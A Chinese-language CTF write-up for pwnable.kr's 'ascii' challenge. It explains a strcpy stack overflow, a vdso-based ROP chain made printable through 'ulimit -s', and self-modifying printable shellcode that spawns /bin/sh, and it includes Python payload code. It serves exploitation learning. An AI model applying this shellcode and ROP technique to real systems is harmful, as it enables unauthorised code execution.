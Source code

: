 # Pwnable.kr ascii 题解

## 源码分析
很简单，没有太多花里胡哨，就是考编码知识。
```cpp
int main()
{
    int v6 = mmap(0x80000000, 4096, 7, 50, -1, 0);
    // 中间代码: 用户输入到 v6 中，要求必须是 ascii 码可表示，长度为 400
    return (int)vuln();
}
char *vuln()
{
  char dest; // [esp+10h] [ebp-A8h]
  return strcpy(&dest, (const char *)0x80000000);
}
```

## 解题步骤
这道题我构造结果是这样的: { shellcode | padding | fake ebp | jmp 0x80000000(shellcode) }. 很显然就是第一个和最后一个是值得写的，下面来进行讲解。

### JMP 0x80000000(shellcode)
首先讲如何完成 `jmp 0x80000000` 这条指令，这种的方法是: **求助栈中内容**，暂时没想到有什么更好的方法，有的话欢迎评论。

这道题观察发现溢出的时候栈里面是这样的: { old ebp | return addr | 10 * xxx | 0x80000000 }，使用 ROP 来完成目标。但是程序地址一般是 0x08xxxxxx，很明显这个 0x08 不可打印，导致程序中的 ROP 也是不可打印的。

技巧是借助 vdso 中的 ROP，因为 vdso 的地址是可以用户控制的。对于 `ulimit -s xxxx` 命令，它的意思是让栈的空间最大可以为 xxx，但是栈空间变大，与此同时 vdso 的地址逐渐降低，所以可以控制 vdso 地址到一个可打印的地址块。

比如我本机中正常情况下某次 vsdo 是 0xf7f22000，如果执行 `ulimit -s 2780000` 后，就变成了 0x56424000。然后查看 ROP，用了下面的两个，正好偏移加上后都是可打印的，构造如下: { vdso + 0x549 | 3 * xx | vdso + 0x549 | 3 * xx | vdso + 0x54b | xx | 0x80000000(原来栈上就有的) }。
```
0x00000549 : pop ebp ; pop edx ; pop ecx ; ret
0x0000054b : pop ecx ; ret
```

### Printable Shellcode
这一块就是如何写出可打印的 shellcode，感觉写完还是比较得意的，甚至觉得这个可以完全作为万能使用了。

首先最难完成的当然是 `int 0x80` 这条指令，主要用到了 `sub [reg + num], al` 这个可打印语句。分为两部分，首先我们要先使得一个寄存器指向 0x80000000，然后通过这个寄存器的偏移修改目标地址的内容，这样说很抽象，请看后面步骤。

第一步是让某个寄存器指向 0x80000000，这里选择的是 ebx，具体做法如下。
1. 一开始先让栈里面存着 0x20303030，并且 `al=0x30, ah=0x70`
2. 之后使用多个 `push eax` 使得 `[esp+num]` 中的 num 是可打印值
3. 然后就通过 sub 指令进行修改即可，其中 0x80 是通过 0x20-0x70-0x30 所得出的
4. 最后使用多个 `pop eax` 回到初始状态，此时栈里面存着的 0x20303030 已经变成了 0x80000000，然后 `pop ebx` 即可
```
push 0x70307030
pop eax
push 0x20303030
push eax * 8
sub BYTE PTR [esp+35], ah
sub BYTE PTR [esp+35], al
sub BYTE PTR [esp+34], al
sub BYTE PTR [esp+33], al
sub BYTE PTR [esp+32], al
pop eax * 8
pop ebx
```

第二步是利用 ebx 进行偏移改变，如下所示。
```
push 0x70
pop eax
sub BYTE PTR [ebx+0x58], al
sub BYTE PTR [ebx+0x58], al
sub BYTE PTR [ebx+0x57], al
```
1. 首先要知道 0x80000000 + 0x57 存着我们事先放好的值 `\x3d\x60`，我们需要把它变成 `\xcd\x80(int 0x80)`
2. 所以和刚才那样一样，利用 sub 指令，0x3d-0x70=0x6d，0x60-0x70-0x70=0x80

这个最难的解决了，剩下都比较简单了，直接附上我的代码片段。
```python
sc = ''

# ebx = 0x80000000
sc += 'push 0x70307030\n'
sc += 'pop eax\n'
sc += 'push 0x20303030\n'
sc += 'push eax\n' * 8
sc += 'sub BYTE PTR [esp+35], ah\n'
sc += 'sub BYTE PTR [esp+35], al\n'
sc += 'sub BYTE PTR [esp+34], al\n'
sc += 'sub BYTE PTR [esp+33], al\n'
sc += 'sub BYTE PTR [esp+32], al\n'
sc += 'pop eax\n' * 8
sc += 'pop ebx\n'

# decode (\x3d\x60) to int 0x80(\xcd\x80)
sc += 'push 0x70\n'
sc += 'pop eax\n'
sc += 'sub BYTE PTR [ebx+0x58], al\n'
sc += 'sub BYTE PTR [ebx+0x58], al\n'
sc += 'sub BYTE PTR [ebx+0x57], al\n'

# eax = 0
sc += 'push 0x41\n'
sc += 'pop eax\n'
sc += 'sub al, 0x41\n'

# ebx = '/bin/sh'
sc += 'push eax\n'
sc += 'push 0x68732f2f\n'
sc += 'push 0x6e69622f\n'
sc += 'push esp\n'
sc += 'pop ebx\n'

# ecx = edx = 0
sc += 'push eax\n'
sc += 'push eax\n'
sc += 'pop ecx\n'
sc += 'pop edx\n'

# eax = 0xb
sc += 'push 0x2b\n'
sc += 'pop eax\n'
sc += 'sub al, 0x20\n'

# \x3d\x60 --> int 0x80
payload = asm(sc) + b'\x3d\x60'
payload = payload.ljust(0xA8+4, b'A')

# vdso ROP
payload = payload + p32(ret_addr_01) * 8
payload = payload + p32(ret_addr_02)
```

## 个人总结
1. 如何使用 ascii 实现 JMP 0x80000000 
2. 如何写出 printable shellcode
3. vdso 的初步学习，可以利用 `ulimit -s` 命令改变它的地址，可以利用它的 ROP

